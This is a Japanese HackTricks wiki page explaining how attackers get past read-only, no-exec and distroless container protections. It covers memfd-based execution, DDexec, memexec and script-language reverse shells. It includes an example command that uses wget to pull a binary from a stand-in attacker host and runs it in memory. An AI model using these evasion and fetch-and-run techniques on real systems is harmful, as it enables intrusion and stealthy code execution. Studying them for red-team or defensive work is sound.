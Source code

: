 # FS保護のバイパス: 読み取り専用 / 実行不可 / Distroless

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用しています！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及された技術がより詳細に説明されています：

* [**DEF CON 31 - Linuxメモリ操作の探求：ステルスと回避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngとメモリ内dlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## 読み取り専用 / 実行不可シナリオ

Linuxマシンが**読み取り専用（ro）ファイルシステム保護**でマウントされることがますます一般的になっています。特にコンテナでは、**`readOnlyRootFilesystem: true`**を`securitycontext`に設定するだけで、roファイルシステムでコンテナを実行することができます：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能であるため、ディスクに何も書き込めないというのは偽りです。ただし、このフォルダは**実行不可保護**でマウントされるため、ここにバイナリをダウンロードしても**実行することはできません**。

{% hint style="warning" %}
レッドチームの観点から見ると、これは**システムに存在しないバイナリをダウンロードして実行することを複雑にします**（バックドアや`kubectl`のような列挙ツールなど）。
{% endhint %}

## 最も簡単なバイパス: スクリプト

バイナリについて言及したことに注意してください。インタープリタがマシン内にある限り、**任意のスクリプトを実行できます**。たとえば、`sh`が存在する場合は**シェルスクリプト**、`python`がインストールされている場合は**Pythonスクリプト**です。

ただし、これはバイナリバックドアや実行する必要がある他のバイナリツールを実行するには十分ではありません。

## メモリバイパス

バイナリを実行したいがファイルシステムがそれを許可していない場合、最良の方法は**メモリから実行すること**です。なぜなら、**保護はそこには適用されないからです**。

### FD + execシステムコールバイパス

マシン内に**Python**、**Perl**、または**Ruby**などの強力なスクリプトエンジンがある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタ（`create_memfd`システムコール）に保存できます。これはこれらの保護によって保護されないため、**`exec`システムコール**を呼び出して**実行するファイルとしてfdを指定**できます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮され、b64エンコードされ**、`create_memfd`システムコールを呼び出して作成された**fd**で**デコードおよび解凍する**ための指示を含むスクリプトが生成されます。

{% hint style="warning" %}
これは、PHPやNodeのような他のスクリプト言語では機能しません。なぜなら、スクリプトから生のシステムコールを呼び出す**デフォルトの方法がないため**、バイナリを保存するための**メモリfd**を作成するために`create_memfd`を呼び出すことができないからです。

さらに、`/dev/shm`にファイルを持つ**通常のfd**を作成しても機能しません。なぜなら、**実行不可保護**が適用されるため、実行することが許可されないからです。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、プロセスの**`/proc/self/mem`**を上書きすることによって**自分のプロセスのメモリを変更する**技術です。

したがって、**プロセスによって実行されているアセンブリコードを制御することで、**シェルコードを書き込み、プロセスを「変異」させて**任意のコードを実行する**ことができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**メモリから自分の**シェルコード**や**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) は DDexec の自然な次のステップです。これは **DDexec シェルコードのデーモン化** であり、異なるバイナリを **実行したいとき** に DDexec を再起動する必要はなく、DDexec テクニックを介して memexec シェルコードを実行し、**このデーモンと通信して新しいバイナリを読み込んで実行する** ことができます。

**memexec を使用して PHP リバースシェルからバイナリを実行する方法の例** は [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) で見つけることができます。

### Memdlopen

DDexec と同様の目的を持つ [**memdlopen**](https://github.com/arget13/memdlopen) テクニックは、**メモリにバイナリを読み込む** より簡単な方法を提供します。依存関係を持つバイナリを読み込むことさえ可能です。

## Distroless Bypass

### Distroless とは

Distroless コンテナは、特定のアプリケーションやサービスを実行するために必要な **最小限のコンポーネントのみを含む** もので、ライブラリやランタイム依存関係などが含まれますが、パッケージマネージャー、シェル、システムユーティリティなどの大きなコンポーネントは除外されます。

Distroless コンテナの目的は、**不要なコンポーネントを排除することによってコンテナの攻撃面を減少させ**、悪用可能な脆弱性の数を最小限に抑えることです。

### リバースシェル

Distroless コンテナでは、**通常のシェルを取得するための `sh` や `bash`** が見つからないかもしれません。また、`ls`、`whoami`、`id` などのバイナリも見つかりません... 通常システムで実行するすべてのものです。

{% hint style="warning" %}
したがって、**リバースシェル**を取得したり、**システムを列挙したり**することはできません。
{% endhint %}

しかし、もし侵害されたコンテナが例えば Flask ウェブを実行している場合、Python がインストールされているため、**Python リバースシェル**を取得できます。Node を実行している場合は Node リバースシェルを取得でき、ほとんどの **スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用することで、言語の機能を利用して **システムを列挙** することができます。
{% endhint %}

もし **`read-only/no-exec`** 保護がなければ、リバースシェルを悪用して **ファイルシステムにバイナリを書き込み**、**実行** することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常これらの保護が存在しますが、**以前のメモリ実行テクニックを使用してそれらを回避する** ことができます。
{% endhint %}

**RCE 脆弱性を悪用してスクリプト言語のリバースシェルを取得し、メモリからバイナリを実行する方法の例** は [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) で見つけることができます。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味があり、ハッキング不可能なものをハッキングしたい方 - **私たちは採用中です！** (_流暢なポーランド語の読み書きが必要です_)。

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS ハッキングを学び、実践する：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP ハッキングを学び、実践する：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks をサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**Telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live) をフォローしてください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の GitHub リポジトリに PR を提出してハッキングトリックを共有してください。

</details>
{% endhint %}
